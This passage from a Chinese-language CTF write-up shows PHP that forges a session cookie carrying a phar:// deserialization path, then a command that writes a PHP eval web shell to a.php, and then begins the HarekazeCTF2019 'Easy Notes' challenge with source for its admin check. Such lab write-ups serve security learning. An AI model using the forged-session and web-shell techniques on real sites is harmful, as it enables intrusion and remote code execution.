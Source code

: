 ```php
<?php

function urlsafe_base64_encode($data) {
  return rtrim(str_replace(['+', '/'], ['-', '_'], base64_encode($data)), '=');
}

$a='{"name":"admin_admin","avatar":"9ee65c71.png","flash":{"type":"info","message":"Your avatar has been successfully updated!"},"theme":"phar://uploads/9ee65c71.png/exp"}';

print(urlsafe_base64_encode($a));
```

```
{"name":"admin_admin","avatar":"9ee65c71.png","flash":{"type":"info","message":"Your avatar has been successfully updated!"},"theme":"phar://uploads/9ee65c71.png/exp"}

session=eyJuYW1lIjoiYWRtaW5fYWRtaW4iLCJhdmF0YXIiOiI5ZWU2NWM3MS5wbmciLCJmbGFzaCI6eyJ0eXBlIjoiaW5mbyIsIm1lc3NhZ2UiOiJZb3VyIGF2YXRhciBoYXMgYmVlbiBzdWNjZXNzZnVsbHkgdXBkYXRlZCEifSwidGhlbWUiOiJwaGFyOi8vdXBsb2Fkcy85ZWU2NWM3MS5wbmcvZXhwIn0.JDJ5JDEwJHN5M3hRaVJjNlh6WnRvd3ovLi5MQXVTakRIOC9TUE0zNmZWYlJvVzcvTEo5NzRXRlBCRkZX
```

然后就可以找flag了，不过回显有点问题，所以用file_put_contents另外写了个马

`?cmd=file_put_contents('a.php','<?php eval($_POST[1])?>');`

![](https://s2.loli.net/2022/01/26/bt2GLVfCFDhKTOI.png)



## 703-[HarekazeCTF2019] Easy Notes

源码[HarekazeCTF2019-challenges/easy_notes/server](https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/tree/master/easy_notes/server)

点击get flag提示非admin

登录处提示这样的格式：`/^[0-9A-Za-z_-]{4,64}$/`



看源码，$_SESSION['admin'] === true则获得flag

```php
# flag.php

if (is_admin()) {
    echo "Congratulations! The flag is: <code>" . getenv('FLAG') . "</code>";
}
```

```php
# lib.php

function is_admin() {
  if (!isset($_SESSION['admin'])) {
    return false;
  }
  return $_SESSION['admin'] === true;
}
```
